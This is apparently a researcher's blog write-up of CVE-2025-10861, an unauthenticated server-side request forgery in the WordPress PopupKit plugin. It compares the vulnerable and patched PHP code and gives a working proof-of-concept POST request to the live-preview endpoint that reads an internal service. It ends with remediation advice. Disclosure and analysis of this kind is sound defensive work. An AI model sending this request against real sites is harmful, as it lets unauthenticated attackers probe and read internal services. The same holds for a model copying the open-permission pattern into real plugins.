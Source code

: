 # CVE-2025-10861 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Popup Builder with Gamification, Multi-Step Popups, Page-Level Targeting, and WooCommerce Triggers** plugin for WordPress is vulnerable to **Server-Side Request Forgery (SSRF)** in all versions **up to and including 2.1.4**.
The cause is **insufficient validation** of **URLs** supplied via the **`url`** parameter.
This allows **unauthenticated attackers** to make **web requests** to **arbitrary addresses** originating from the web application, which can be used to **query or modify information from internal services**, as well as **conduct network reconnaissance**.
The vulnerability was **partially patched** in **version 2.1.4**.

* **CVE ID**: [CVE-2025-10861](https://www.cve.org/CVERecord?id=CVE-2025-10861)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.1.4
* **Patched Versions**: 2.1.5
* **CVSS severity**: Medium (7.2)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress PopupKit Plugin](https://wordpress.org/plugins/popup-builder-block/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **PopupKit**: **2.1.3** (vulnerable) and **2.1.5** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to compare differences between versions.

## Analysis

### Patch diff

Because some source was partially patched in **2.1.4**, we will analyze using version **2.1.3**.

```php {title="FetchDemo.php - v2.1.3" hl_lines=[4,6,12,13,20,21,26,28]}
protected function get_routes(): array {
    return [
        [
            'endpoint'            => '/live-preview',
            'methods'             => 'POST',
            'callback'            => 'fetch_external_content',
            'permission_callback' => '__return_true',
        ],...
    ];
}

public function fetch_external_content( \WP_REST_Request $request ) {
    $url = $request->get_param( 'url' );

    if ( ! filter_var( $url, FILTER_VALIDATE_URL ) ) {
        return new \WP_REST_Response( array( 'error' => 'Invalid URL' ), 400 );
    }

    // Fetch the content using wp_remote_get
    $new_url  = add_query_arg( 'preview', 'true', $url );
    $response = wp_remote_get( $new_url );
    if ( is_wp_error( $response ) ) {
        return new \WP_REST_Response( array( 'error' => 'Error fetching content' ), 500 );
    }
    // Return the fetched content
    $body = wp_remote_retrieve_body( $response );
    $body = preg_replace( '/type="[^"]+-text\/javascript"/', 'type="text/javascript"', $body );
    return new \WP_REST_Response( array( 'content' => $body ), 200 );
}
```

In version **2.1.3**, the plugin defines a POST API with `permission_callback => __return_true`, allowing **any user**, including **anonymous users**, to invoke `fetch_external_content()` with a required `url` parameter.
This function uses `wp_remote_get` to send a request to the provided URL and returns the response body.

Because there is no mechanism to control or filter internal URLs, an attacker can send requests to internal services, leading to **SSRF** exploitable by **anonymous users**.

```php {title="FetchDemo.php - v2.1.5" hl_lines=[4,6,12,20,19,25,27]}
protected function get_routes(): array {
    return [
        [
            'endpoint'            => '/live-preview-template',
            'methods'             => 'GET',
            'callback'            => 'fetch_external_content',
        ],...
    ];
}

public function fetch_external_content( \WP_REST_Request $request ) {
    $url = $request->get_param( 'url' );

    if ( ! filter_var( $url, FILTER_VALIDATE_URL ) ) {
        return new \WP_REST_Response( array( 'error' => 'Invalid URL' ), 400 );
    }

    // Fetch the content using wp_remote_get
    $new_url  = add_query_arg( 'preview', 'true', $url );
    $response = wp_safe_remote_get( $new_url );
    if ( is_wp_error( $response ) ) {
        return new \WP_REST_Response( array( 'error' => 'Error fetching content' ), 500 );
    }
    // Return the fetched content
    $body = wp_remote_retrieve_body( $response );
    $body = preg_replace( '/type="[^"]+-text\/javascript"/', 'type="text/javascript"', $body );
    return new \WP_REST_Response( array( 'content' => $body ), 200 );
}
```

In the **2.1.5** fix, the plugin made several changes to mitigate **SSRF** risk:

* **Changed the endpoint** from `/live-preview` to `/live-preview-template`.
* Replaced `wp_remote_get()` with `wp_safe_remote_get()`, which helps WordPress **automatically block requests to internal addresses** such as `localhost`, `127.0.0.1`, or `169.254.*`.
* As a result, user-supplied requests to internal resources on the server are blocked, preventing straightforward SSRF exploitation.

### Vulnerable Code

`get_routes()` is invoked inside `register_routes()`:

```php {title="Api.php - v2.1.3" hl_lines=[4,7,8,10,11,12,13,14,20,21]}
protected $namespace = 'pbb/v1';

public function register_routes() {
    $routes = $this->get_routes();
    foreach ($routes as $route) {
        register_rest_route(
            $this->namespace,
            $route['endpoint'],
            [
                'methods'             => $route['methods'],
                'callback'            => [$this, $route['callback']],
                'permission_callback' => isset($route['permission_callback'])
                    ? $route['permission_callback']
                    : [$this, 'permission_callback'],
            ]
        );
    }
}

public function permission_callback(): bool {
    return current_user_can('manage_options');
}
```

When `register_routes()` runs, all routes returned by `get_routes()` are registered with the WordPress REST API via `register_rest_route()`.

Here:

* Each route maps to an `endpoint`, `method`, and `callback`.
* If a route lacks a `permission_callback`, the plugin defaults to `$this->permission_callback`, requiring the `manage_options` capability (typically admin).
* However, in **2.1.3**, the `/live-preview` route is explicitly declared with `permission_callback => '__return_true'`, which **bypasses the permission check**, allowing anyone (including anonymous users) to call that API.

When a **POST** request is sent to `/wp-json/pbb/v1/live-preview`, `fetch_external_content()` executes. It reads the `url` parameter from the request, performs a **fetch request** to that address, and returns the **response body**.

## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request to the endpoint

```http
POST /wp-json/pbb/v1/live-preview HTTP/1.1
Host: localhost
...

url=http://localhost:8001/metadata
```

**Result**:

![Result](result.png "Content read from local service")

## Conclusion

Versions **≤ 2.1.4** of **PopupKit** are vulnerable to **SSRF**: the `/wp-json/pbb/v1/live-preview` endpoint allows **anonymous** users to call `fetch_external_content()` with a client-provided `url`; the function uses `wp_remote_get()` and returns the response body directly, enabling access to internal services. Version **2.1.5** switched to `wp_safe_remote_get()` and restricted access to admin-only, which reduces risk.

## Key takeaways

* **Update** to **2.1.5+**.
* **Do not trust client URLs** — validate/allowlist before fetching.
* **Use `wp_safe_remote_get()`** and add additional checks (redirects, DNS).
* **Do not use `permission_callback => __return_true`**; restrict permissions.
* **Do not return raw response bodies** unless necessary.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress PopupKit Plugin <= 2.1.4 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/popup-builder-block/vulnerability/wordpress-popup-builder-with-gamification-multi-step-popups-page-level-targeting-and-woocommerce-triggers-plugin-2-1-4-unauthenticated-server-side-request-forgery-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-27-cve-2025-10861/  

